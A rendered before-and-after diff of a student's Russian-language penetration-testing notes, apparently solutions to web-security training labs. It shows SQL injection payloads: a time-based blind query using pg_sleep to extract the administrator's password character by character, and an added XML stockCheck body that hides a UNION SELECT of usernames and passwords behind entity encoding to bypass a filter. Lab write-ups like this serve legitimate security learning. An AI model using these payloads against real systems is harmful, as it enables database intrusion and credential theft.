

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr4/os.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-17 17:51:06) by gitwatch.sh

````diff
--- a/pentest/pr4/os.md
+++ b/pentest/pr4/os.md
@@ -185,3 +185,25 @@ cookies['TrackingId'] = f"ry6OMfqiyJL4qIfd'+AND+(SELECT+SUBSTRING(password,{i+1}
 ```
 ';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i+1},1)='{al}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
 ```
+
+## 16 и 17 скип - Burp Collaborator нужен
+
+## 18. Lab: SQL injection with filter bypass via XML encoding
+
+Прикольно можно научиться пользоваться Hackvertor.
+
+По итогу банальное sql injection, надо только обойти ограничения при помощи плагина
+
+```
+<?xml version="1.0" encoding="UTF-8"?>
+    <stockCheck>
+        <productId>
+            2
+        </productId>
+        <storeId>
+            <@dec_entities>
+                2 UNION SELECT username||'~'||password FROM users
+            </@dec_entities>
+        </storeId>
+    </stockCheck>
+```
````
